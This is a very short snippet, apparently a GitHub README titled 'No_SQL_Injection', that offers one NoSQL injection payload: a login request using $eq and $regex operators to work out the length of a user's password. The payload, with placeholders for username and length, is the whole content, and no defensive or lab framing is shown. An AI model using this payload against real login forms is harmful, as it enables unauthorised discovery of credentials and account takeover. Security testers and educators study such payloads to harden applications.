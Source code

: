 # No_SQL_Injection

```
To find number of characters in password:
username[$eq]=Enter_The_username_here&password[$regex]=.{Enter_the_number_here}&login=login
```

